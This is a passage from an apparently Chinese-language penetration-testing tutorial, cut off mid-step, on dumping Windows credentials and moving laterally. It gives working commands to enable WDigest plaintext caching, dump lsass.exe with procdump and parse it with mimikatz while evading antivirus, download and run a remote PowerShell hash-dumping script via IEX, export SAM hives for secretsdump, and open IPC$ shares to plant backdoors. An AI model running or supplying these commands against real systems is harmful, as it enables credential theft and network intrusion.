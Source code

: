 cmd 修改注册表命令：

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

重启或用户重新登录后可以成功抓取。

3.1.2Procdump

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。通常使用 procdump 转储内存文件到本地再使用 mimikatz 抓取文件中的 hash 来躲避杀软检测。

下载地址：

> https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

procdump64.exe -accepteula -ma lsass.exe lsass.dmp

2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/7a604f155c444ca6a5c777366f2d69fb.jpeg)

3.1.3Getpass

Getapss 是由闪电小子根据 mimikatz 编译的一个工具，可以直接获取明文密码，直接运行 Getpass.exe 即可：

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/a4d5806c5647476b83f36c171ee23436.jpeg)

3.1.4Powershell 脚本抓取

当目标系统存在 powershell 时，可直接一句 powershell 代码调用抓取，前提是目标可出外网，否则需要将 ps1 脚本放置内网之中。执行:

powershell IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1’);Get-PassHashes

3.1.5Sam 破解

使用注册表来离线导出 Hash

reg save HKLM\SYSTEM system.hiv

reg save HKLM\SAM sam.hiv

reg save hklm\security security.hiv

导出后可以使用 mimikatz 加载 sam.hiv 和 sam.hiv 来导出 Hash。或者使用 impacket 套件中 secretsdump.py 脚本去解密，也是可以的。

python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL 3.2 横向移动

3.2.1IPC + 计划任务

通过 ipc$ 实现对 windows 默认共享的访问，配合计划任务执行后门程序获取服务器权限。

1、通过 net use 建立 IPC$ 连接

net use \\192.168.91.131\IPC$ /user:"administrator" "abc@123"

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/6a880dab0b5c4746a75b6e13cb9cd0ec.jpeg)

2、利用 copy 上传后门文件
